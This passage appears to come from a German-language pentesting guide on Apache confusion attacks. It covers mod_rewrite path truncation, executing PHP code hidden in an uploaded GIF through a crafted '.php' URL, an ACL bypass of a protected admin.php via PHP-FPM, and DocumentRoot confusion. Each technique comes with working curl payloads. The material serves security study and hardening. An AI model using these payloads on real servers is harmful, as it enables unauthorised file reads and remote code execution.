 * **Pfadtrunkierung**

Es ist möglich, `mod_rewrite` wie im folgenden Regelbeispiel zu missbrauchen, um auf andere Dateien im Dateisystem zuzugreifen, indem einfach der letzte Teil des erwarteten Pfades entfernt wird, indem man ein `?` hinzufügt:
```bash
RewriteEngine On
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"

# Expected
curl http://server/user/orange
# the output of file `/var/user/orange/profile.yml`

# Attack
curl http://server/user/orange%2Fsecret.yml%3F
# the output of file `/var/user/orange/secret.yml`
```
* **Irreführende RewriteFlag-Zuweisung**

In der folgenden Rewrite-Regel wird jede URL, die mit .php endet, als php behandelt und ausgeführt. Daher ist es möglich, eine URL zu senden, die mit .php endet, nachdem das `?`-Zeichen, während im Pfad ein anderer Dateityp (wie ein Bild) mit schädlichem php-Code geladen wird:
```bash
RewriteEngine On
RewriteRule  ^(.+\.php)$  $1  [H=application/x-httpd-php]

# Attacker uploads a gif file with some php code
curl http://server/upload/1.gif
# GIF89a <?=`id`;>

# Make the server execute the php code
curl http://server/upload/1.gif%3fooo.php
# GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
#### **ACL Bypass**

Es ist möglich, auf Dateien zuzugreifen, auf die der Benutzer nicht zugreifen sollte, selbst wenn der Zugriff mit Konfigurationen wie: verweigert werden sollte.
```xml
<Files "admin.php">
AuthType Basic
AuthName "Admin Panel"
AuthUserFile "/etc/apache2/.htpasswd"
Require valid-user
</Files>
```
Dies liegt daran, dass PHP-FPM standardmäßig URLs empfängt, die mit `.php` enden, wie `http://server/admin.php%3Fooo.php`, und da PHP-FPM alles nach dem Zeichen `?` entfernt, ermöglicht die vorherige URL das Laden von `/admin.php`, selbst wenn die vorherige Regel dies verboten hat.

### DocumentRoot Verwirrung
```bash
DocumentRoot /var/www/html
RewriteRule  ^/html/(.*)$   /$1.html
```
Ein interessanter Fakt über Apache ist, dass die vorherige Umschreibung versucht, die Datei sowohl aus dem documentRoot als auch aus dem Root-Verzeichnis zuzugreifen. Eine Anfrage an `https://server/abouth.html` wird die Datei in `/var/www/html/about.html` und `/about.html` im Dateisystem überprüfen. Dies kann im Grunde genommen missbraucht werden, um auf Dateien im Dateisystem zuzugreifen.

